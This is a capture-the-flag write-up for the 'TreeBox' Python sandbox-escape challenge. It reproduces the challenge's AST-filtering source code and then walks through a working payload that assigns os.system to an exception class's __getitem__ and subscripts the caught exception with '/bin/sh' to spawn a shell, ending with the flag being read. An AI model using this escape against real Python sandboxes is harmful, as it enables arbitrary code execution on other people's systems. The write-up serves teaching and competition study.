 # TreeBox

## Challenge Description
**Category**: Sandbox

**Description**: I think I finally got Python sandboxing right.

The challenge was a pyjail-style sandbox, that needed to "escaped" from - regain the ability to execute arbitrary code (and read the flag file) given a VERY restrictive environment. As usual with pyjails, the source code was provided:

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

## Code Evaluation
Looking at the source code, the program checks the input code before executing it - only if the code is labeled 'safe' by ```verify_secure```,
that uses the ```ast``` library (**A**bstract **S**yntax **T**rees) to parse the input.

Essentially, both functions calls and import statements are banned, because they match either of ```ast.Call, ast.Import, ast.ImportFrom```

Note: The program uses structured pattern matching, so we know that it is running on Python 3.10+

## Thought Process

While imports can be avoided, function calls are a fundemental part of any programming language.
At first glance, the objective of reading the flag without calling any function seems impossible.

This means that the challenge must be solved by:
1. Somehow managing to read the flag file without using calls or import statements (unlikely)
2. Figuring out a way to fool ```ast``` by calling functions indirectly, so it won't notice the function calls made by the program

As far as we know, it's impossible to access the file system or the shell without invoking any functions, so we tried to change the angle of thinking about this challenge to the second way.

We needed to find the 'trickable' part of the program, as a chain is only as strong as its weakest link.
A few options come to mind:
1. Python's match-case
2. ast parser

We didn't believe Python's match-case to be the weak part, as that would be a fatal flaw in Python itself, and probably not the intention of the challenge authors anyway (even though it is *possible*, see Python2's ```input()``` RCE vulnerability).

That leaves tricking the ast parser by calling functions indirectly (without invoking them using parentheses).

## Dunder Methods To the Rescue!

One way to achieve indirect function calls, is dunder (double underscore) methods. These are functions that help creating classes in Python, and are normally used in order to make contructors, overload operators change the behavior of Python built-in functions on the classe's objects, and more.

## Constructing a Solution Payload
At first, this doesn't seem to be of much help - to create an object (and invoke ```__init__``` or another dunder method).
After putting some thought into it, we came to realize that exceptions are classes too! A quick check reveals that it is possible to raise exceptions without any arguments.
Meaning:

```raise Exception``` is allowed, but ```raise Exception("Can I pass an argument?")``` would match to ```ast.Call```.

Knowing all of this, we can create (and raise) a custom exception (a class that inherits from ```Exception```), catch the exception
and get access to the exception object, already equipped with the dunder method we created.

So our theoretical payload would look something like this:
```python
class CustomException(Exception):
  pass # TODO: add a dunder method to use when handling the exception
  
 try:
   raise CustomException
 except CustomException as e:
   pass # TODO: use the exception object (e)
```

At this point, there are several approaches to what dunder method to use to inderectly call a function. One of the most common ones is to overload one of the operators, for example, the plus operator (+) using the ```__add__``` method.

We chose to use ```__getitem__```.
```__getitem__``` is the function that is being called when looking for a value that matches a key in a dictionary.

For instance, in the following code snippet, ```__getitem__``` is called to retrieve the value matching the key 'a':
```python
d = {'a': 1, 'b': 2}
d['a']
```
By overriding ```__getitem__``` in our custom exception with another function, we can get ANY function to execute with one argument - whatever we put in the square brackets as a 'key'.

Since the ```os``` module is loaded into the running namespace, we can override ```__getitem__``` with os.system and thus execute any shell command.

This brings us to the final attack payload:
```python
class CustomException(Exception):
	__getitem__ = os.system

try:
	raise CustomException
except CustomException as e:
	e["/bin/sh"]
--END
```
Which will end up executing: ```os.system("/bin/sh")```, providing us an unlimited shell.
```bash
$ cat flag
CTF{CzeresniaTopolaForsycja}
```

**P.S.** This challenge is probably the only time we were *delighted* to see an exception, instead of being frustrated :)

*Writeup by C0d3 Bre4k3rs: 5h4d0w, N04M1st3r*
